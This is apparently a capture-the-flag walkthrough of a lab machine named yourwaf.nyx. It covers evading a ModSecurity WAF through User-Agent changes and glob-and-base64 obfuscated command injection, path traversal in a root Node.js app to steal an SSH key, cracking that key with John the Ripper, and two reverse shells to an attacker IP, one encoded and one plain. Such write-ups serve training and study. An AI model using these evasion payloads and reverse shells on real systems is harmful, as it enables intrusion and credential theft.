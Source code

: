 When we scan the box, there are these 3 ports open:
22,80,3000

When we try accessing the webpage manually, we are redirected to `www.yourwaf.nyx`, so we add this domain to our `/etc/hosts` file, along with yourwaf.nyx

We also see that there is a WAF being used by the web app, ModSecurity. 

When we use the `whatweb` tool to try to get webserver enumeration info, we come across an error

whatweb http://www.yourwaf.nyx

But if we use the same tool with a custom User-Agent header, we can get info:

whatweb http://www.yourwaf.nyx -H "User-Agent: abc"

This makes us suspect that the WAF is filtering requests based on contents of the User-Agent header. If we send a curl command to the server with the whatweb tool's standard User-Agent header, we can prove it:

curl -H "User-Agent: WhatWeb" -v http://www.yourwaf.nyx/

So we now suspect that the WAF filters on all User-Agent header of common pentesting tools, such as WhatWeb, Ffuf, and others

We'd like to do subdomain enumeration with Ffuf, but we need to remember to send a custom User-Agent header while we do so

ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fs 10701 -H "Host: FUZZ.yourwaf.nyx" -u 'http://yourwaf.nyx' -fs 0 -H "User-Agent: abc"

We find there's a `maintenance` subdomain, and we can check this out:

http://maintenance.yourwaf.nyx

On this endpoint, there's a OS command execution function, which we can use to run commands, except that this user input is also monitored by the WAF




/u?r/b?n/ec?o 'ZWNobyAiZ290IGl0ISIK' | base64 -d | /b?n/b?s? -e

This means we can run any command we want, as long as we encode it into base64




/u?r/b?n/ec?o 'c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4yMTIuMTAvNDQzIDA+JjEK' | base64 -d | /b?n/b?s? -e





We can see the User-Agents that the WAF blocks on here:

cat /usr/share/modsecurity-crs/rules/scanners-user-agents.data

We can see the matching rules that prevent OS command injection:

cat /usr/share/modsecurity-crs/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf

Now we need to do some privilege escalation. There's the code for the port 3000 app in the /opt/nodeapp/server.js

```
const express = require('express')
const { exec } = require('child_process');
var path = require('path');

const app = express()
const port = 3000

const apiToken = '8c2b6a304191b8e2d81aaa5d1131d83d';


function checkApiToken(req, res, next) {
  let sendApiToken = req.query["api-token"] ?? '';
  if (apiToken !== sendApiToken) {
    res.send("Unauthorized.")
    return;
  }
  next();
}

app.use('/logs', (req, res) => {
  let path_to_file = __dirname + '/logs/modsec_audit.log'
  res.sendFile(path_to_file)
})


app.get('/', checkApiToken, (req, res) => {
  res.send('API de mantenimiento!');
})

app.get('/restart', checkApiToken, (req, res) => {
  exec('reboot', (error, stdout, stderr) => {
    if (error) {
      res.send(`exec error: ${error}`)
      return;
    }
    res.send('Restarting server...');
  });
})

app.get('/readfile', checkApiToken, (req, res) => {
  let file = req.query["file"] ?? '';
  if (file === '') {
    res.send('Error: need file')
    return;
  }
  if (file.indexOf('passwd') !== -1) {
    res.send('ForbiddenError: Forbidden')
    return;
  }
  let path_to_file = __dirname + file
  res.sendFile(path.resolve(path_to_file))
})


app.listen(port,  () => {
  console.log(`Example app listening on port ${port}`)
```

According to the code, if we provide navigate to the /readfile endpoint with the specified API key and the name of a file, we can read the file 

ps aux | grep node

Since the node app is running as root, we can do privileged file read on any file on the system

curl 'http://www.yourwaf.nyx:3000/readfile?api-token=8c2b6a304191b8e2d81aaa5d1131d83d&file=../../../../home/tester/.ssh/id_rsa'

We can crack the passphrase for this key with John the Ripper

ssh2john id_rsa > key.hash
john --wordlist=/usr/share/wordlists/rockyou.txt key.hash

The passphrase is wafako

Once in, we see that our user is part of the copylogs group, and we saw a shell script being run as part of this group in the /opt/nodeapp directory

We can write to this file, so why don't we have it do a reverse shell to our attacker system?

echo 'sh -i >& /dev/tcp/192.168.212.10/443 0>&1' > copylogs.sh
